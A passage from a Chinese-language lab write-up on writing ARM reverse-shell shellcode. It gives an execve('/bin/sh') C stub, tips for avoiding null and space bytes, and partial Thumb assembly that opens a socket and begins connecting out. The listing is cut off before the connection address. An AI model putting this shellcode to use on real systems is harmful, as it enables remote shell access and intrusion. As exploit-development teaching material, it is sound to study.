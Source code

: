### <a class="reference-link" name="4.5%20shellcode%E7%BC%96%E5%86%99%E2%80%94%E6%8F%90%E4%BE%9B%E5%8F%8D%E5%90%91shell"></a>4.5 shellcode编写—提供反向shell

shellcode是我基于exploitdb上的shellcode修改的

在这个实验环境中execve(“/bin/sh”,0,0)会报错

必须是execve(“/bin/sh”,[“/bin/sh”],0)

```
#include "stdlib.h"
#include "stdio.h"
#include "unistd.h"
void main()
`{`
    char *arg[] = `{`"/bin/sh"`}`;
    execve("/bin/sh",arg,0);
`}`
```

shellcode.s

1.需要注意的地方就是避免0x20 0x00，我是通过变化指令来实现的，也有在shellcode开头添加一段解码汇编的。

修改指令推荐使用keystone中的kstool.exe(下载keystone windows版里面有)

2.设置execve第二个参数是这样设置的

push `{`r0, r2`}`; movs r1, sp;

3.padpad当前版本没有实际作用，之前版本留下的，这里作为一个提示。

之前版本的错误

ipv4.s: Assembler messages:<br>
ipv4.s:23: Error: invalid immediate for address calculation (value = 0x0000002A)<br>
ipv4.s:45: Error: invalid immediate for address calculation (value = 0x00000016

因为交叉编译工具不够智能，adr不能自动处理，导致后面的address不符合立即数的规范，是为了补成4的倍数。

比如padpad:<br>
.ascii “xffxff” ，当然现在是.ascii “xffxffxffxff” 没有实际作用

```
.section .text
.global _start
_start:
/* Enter Thumb mode */
    .ARM
    add    r3, pc, #1
    bx    r3

    .THUMB
/* Create a new socket*/
    eor         r0, r0, r0
#no 0x00
    add         r0, #2           
    movs        r1, #1           
    eor        r2, r2, r2       
    movs        r7, #100         
    add        r7, #181         
    svc         #1      
#use r6         
    mov         r6, r0             

/* Connect to client */
    adr     r1, struct_addr
    strb    r2, [r1, #1]     
    movs     r2, #16         
```